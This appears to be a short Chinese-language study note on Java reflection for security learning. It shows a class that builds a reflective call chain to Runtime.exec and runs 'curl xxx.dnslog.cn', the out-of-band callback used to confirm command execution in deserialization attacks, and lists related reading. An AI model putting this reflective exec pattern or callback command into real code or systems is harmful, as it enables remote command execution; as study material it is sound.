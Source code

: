 ```java

```

- 完整代码：

```java
package reflection;

public class TestChain {
    public static void main(String[] args) {
        // Runtime.getRuntime().exec("curl xxx.dnslog.cn")
        try {
            String.class.getClass().forName("java.lang.Runtime").getMethod("exec", String.class).invoke(
                String.class.getClass().forName("java.lang.Runtime").getMethod("getRuntime").invoke(
                    String.class.getClass().forName("java.lang.Runtime")
                ), "curl xxx.dnslog.cn"
            );
        }
        catch (Exception e) {
            e.printStackTrace();
        }
    }
}

```

- 参考文章：
   - [java.lang.Class](https://docs.oracle.com/javase/7/docs/api/java/lang/Class.html)
   - [Java安全漫谈](https://github.com/phith0n/JavaThings)
   - [Java反序列化学习之反射](https://forum.butian.net/share/1333)
   - [Code-Breaking Puzzles — javacon WriteUp](http://rui0.cn/archives/1015)
